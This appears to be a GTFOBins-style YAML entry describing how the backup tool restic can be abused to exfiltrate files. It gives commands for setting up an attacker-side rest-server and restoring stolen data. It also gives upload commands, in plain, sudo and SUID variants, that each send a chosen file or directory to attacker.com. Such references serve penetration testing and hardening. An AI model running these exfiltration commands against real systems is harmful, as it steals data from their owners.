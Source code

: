 description: |
  The attacker must setup a server to receive the backups, in the following example [rest-server](https://github.com/restic/rest-server/) is used but there are other options. To start a new instance and create a new repository:

  ```console
  RPORT=12345
  NAME=backup_name
  ./rest-server --listen ":$RPORT"
  restic init -r "rest:http://localhost:$RPORT/$NAME"
  ```

  To extract the data from the restic repository in the current directory on the attacker side:

  ```console
  restic restore -r "/tmp/restic/$NAME" latest --target .
  ```

  Upload data to the attacker server with the following commands.
functions:
  file-upload:
    - code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_or_dir_to_get
        NAME=backup_name
        restic backup -r "rest:http://$RHOST:$RPORT/$NAME" "$LFILE"
  sudo:
    - code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_or_dir_to_get
        NAME=backup_name
        sudo restic backup -r "rest:http://$RHOST:$RPORT/$NAME" "$LFILE"
  suid:
    - code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_or_dir_to_get
        NAME=backup_name
        ./restic backup -r "rest:http://$RHOST:$RPORT/$NAME" "$LFILE"
---

